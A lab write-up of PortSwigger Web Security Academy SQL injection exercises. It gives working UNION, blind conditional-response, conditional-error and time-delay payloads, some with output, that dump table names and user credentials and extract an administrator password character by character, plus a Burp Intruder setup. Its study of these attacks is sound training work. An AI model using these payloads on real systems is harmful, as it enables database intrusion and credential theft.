# SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`

![results-blind-oracle](images/results-blind-oracle.png)

## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

